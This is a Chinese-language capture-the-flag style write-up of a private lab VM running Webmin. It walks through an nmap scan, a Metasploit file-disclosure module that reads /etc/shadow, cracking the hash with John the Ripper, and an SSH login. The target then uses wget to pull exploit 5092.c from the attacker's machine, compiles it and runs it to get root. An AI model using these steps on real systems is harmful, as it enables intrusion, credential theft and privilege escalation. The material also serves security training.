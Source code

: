 
# 环境
攻击机IP：192.168.1.10<br />目标机IP：192.168.1.18


# 实战

## 信息收集
使用NMAP扫描端口
```
nmap -Pn -sV 192.168.1.18
```
![image.png](./assets/1657691710906-922dad79-f263-457f-a284-8f9ab9f3ab22.png)

可以看到开放了22-SSH、80-http、10000-http等端口

先看看80端口，浏览一番后发现并没有什么东西，基本上就是有关提示
![image.png](./assets/1657691713945-ff4c4840-e0e1-469e-aaa2-d86bacfaeed6.png)

看一下10000端口，是一个登录界面，尝试了一下万能密码，无法绕过
![image.png](./assets/1657691719098-12b345ab-10af-46a8-ab13-e49ec46c53d3.png)


## 漏洞发现
在上面的扫描中我们发现1000端口运行的是`Webmin`程序，看看该程序有没有什么已知漏洞
```
searchsploit Webmin 0.01
```
![image.png](./assets/1657691723087-f7d5d30b-fbcc-4fbf-98d7-5699ce30b877.png)


## 漏洞利用
存在漏洞那么我们就尝试利用漏洞得到一些信息，打开MSF查找`webmin`
![image.png](./assets/1657691729000-e31e2669-56a3-4601-b9cd-6009b753d180.png)

看到`auxiliary/admin/webmin/file_disclosure`模块与我们在上面所找出来的漏洞相似，加以利用
```
msf6 > use 1             --利用模块
msf6 auxiliary(admin/webmin/file_disclosure) > show options         --查看需要的设置
msf6 auxiliary(admin/webmin/file_disclosure) > set rhosts 192.168.1.18    --设置目标IP
msf6 auxiliary(admin/webmin/file_disclosure) > run              --启动模块
```
![image.png](./assets/1657691734720-1631fa6d-fd53-4df2-b8a7-57042b14ecd7.png)

可以看到我们获取了目标系统的可用用户名，然后去获取密码
```
msf6 auxiliary(admin/webmin/file_disclosure) > set rpath /etc/shadow
msf6 auxiliary(admin/webmin/file_disclosure) > run
```
![image.png](./assets/1657691740316-6063fae7-6af9-4260-963b-204246a3a3fc.png)

将得到的密码HASH复制到一个文档中并命名为pass，使用john破解，得到密码h4ckm3
```
john --wordlist=/usr/share/wordlists/rockyou.txt pass
```
![image.png](./assets/1657691744723-73167d98-1e3e-4bd7-9034-2258c5d26883.png)

在前面的扫描中我们看到开放了22-SSH端口，尝试连接
```
ssh vmware@192.168.1.18
```
![image.png](./assets/1657691748882-43511379-c1a6-488a-ad13-ef973a44c39d.png)


## 提权
根据目标机器系统版本在kali中找到对应利用文件
![image.png](./assets/1657691753134-f547b25b-6702-4889-b623-310020d920e0.png)

将利用文件复制到`/var/www/html`下
```
root@kali-xmtx:~/桌面# cd /usr/share/exploitdb/exploits/linux/local/
root@kali-xmtx:/usr/share/exploitdb/exploits/linux/local# cp 5092.c /var/www/html/
root@kali-xmtx:/usr/share/exploitdb/exploits/linux/local# cd /var/www/html/
root@kali-xmtx:/var/www/html# ls
```
![image.png](./assets/1657691758954-6ced02c4-70d8-461f-b98c-6a9dd5bc54ac.png)

启动apach服务
```
service apache2 start
```

在ssh中将5092.c下载到目标机
```
vmware@ubuntuvm:/$ cd /tmp
vmware@ubuntuvm:/tmp$ wget http://192.168.1.10/5092.c
vmware@ubuntuvm:/tmp$ ls
```
![image.png](./assets/1657691763383-7293846d-4f44-447c-9585-2cf656eaf297.png)

编译5092.c并赋权限然后执行
```
vmware@ubuntuvm:/tmp$ gcc 5092.c -o shell
vmware@ubuntuvm:/tmp$ chmod 777 shell
vmware@ubuntuvm:/tmp$ ./shell
```
![image.png](./assets/1657691768418-21869f78-fee3-4183-924e-4724d3a9ea7a.png)

成功得到root权限
![image.png](./assets/1657691772850-3e7d57dd-120e-447b-9c46-a6935ccc7591.png)
